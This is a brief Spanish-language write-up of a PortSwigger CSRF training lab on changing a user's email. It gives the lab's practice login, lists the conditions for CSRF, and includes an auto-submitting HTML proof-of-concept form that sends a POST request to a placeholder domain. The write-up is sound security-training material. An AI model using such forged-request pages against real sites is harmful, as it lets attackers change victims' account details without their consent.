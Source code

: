 
Tags: #CSRF #PortSwigger
# Lab 1 CSRF Vulnerability with no defenses 

Explotar el CSRF y cambiar la dirección de correo.

Creds - wiener:peter 

## Sección de análisis 

```bash 
1. Una acción relevante                              - Funcionalidad de cambio de email
2.  Manejo de una sesión basada en Cookie            - Sesion de Cookie 
3. Parámetro de petición imprevisible                - 
```


```HTML 
<!-- CSRF PoC -->

<html>
	<body>
	<script>history.pushState('', '', '/')</script>
		<form action="https://domain.com/" method="POST">
			<input type="hidden" name="email" value="test&#64;test&#64;ca" />
			<input type="submit" value="Submit request"/>
		</form>
		<script>
		document.forms[0].submit();
		</script>
	</body>
</html>
```


